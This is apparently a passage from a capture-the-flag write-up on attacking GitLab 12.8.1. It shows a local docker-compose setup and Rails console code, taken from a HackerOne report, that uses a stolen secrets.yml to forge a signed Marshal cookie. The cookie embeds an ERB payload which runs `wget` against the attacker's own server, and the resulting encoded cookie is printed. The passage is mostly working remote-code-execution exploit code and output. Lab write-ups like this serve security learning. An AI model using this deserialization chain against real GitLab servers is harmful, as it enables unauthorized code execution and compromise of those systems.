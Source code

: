 We want the same version as the one on the box. Our docker-compose.yml looks as follow.

    :::text
    web:
      image: 'gitlab/gitlab-ce:12.8.1-ce.0'
      restart: always
      hostname: 'gitlab.hakase-labs.io'

      environment:
        GITLAB_OMNIBUS_CONFIG: |
          # Add any other gitlab.rb configuration here, each on its own line
          #external_url 'https://gitlab.hakase-labs.io'
          gitlab_rails['gitlab_shell_ssh_port'] = 2224
          #nginx['redirect_http_to_https'] = true
          #nginx['ssl_certificate'] = "/etc/gitlab/ssl/fullchain.pem"
          #nginx['ssl_certificate_key'] = "/etc/gitlab/ssl/privkey.pem"
          #nginx['ssl_dhparam'] = "/etc/gitlab/ssl/dhparams.pem"  

      ports:
        - '80:80'
        - '443:443'
        - '2224:22'

      volumes:
        - '${GITLAB_HOME}/config:/etc/gitlab'
        - '${GITLAB_HOME}/logs:/var/log/gitlab'
        - '${GITLAB_HOME}/data:/var/opt/gitlab'
        - '${GITLAB_HOME}/config/ssl:/etc/gitlab/ssl'

We got a shell on the gitlab docket and overwrite
`/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` with the downloaded one.
Then we use `gitlab-rails console` to reproduce the lines in the
[hackerone report](https://hackerone.com/reports/827052)
to create a Marshalled payload within a cookie. Our first payload is a simple
`wget` targeting our own python server.

    :::text
    request = ActionDispatch::Request.new(Rails.application.env_config)
    request.env["action_dispatch.cookies_serializer"] = :marshal
    cookies = request.cookie_jar
    irb(main):014:0> erb = ERB.new("<%= `wget http://10.10.14.51:8000/p0wn` %>")
    depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
    cookies.signed[:cookie] = depr
    puts cookies[:cookie]
    BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiYyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGB3Z2V0IGh0dHA6Ly8xMC4xMC4xNC41MTo4MDAwL3Awd25gICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--e58cf8e3ef8e1b016de9b83cac7627d48ec17c45
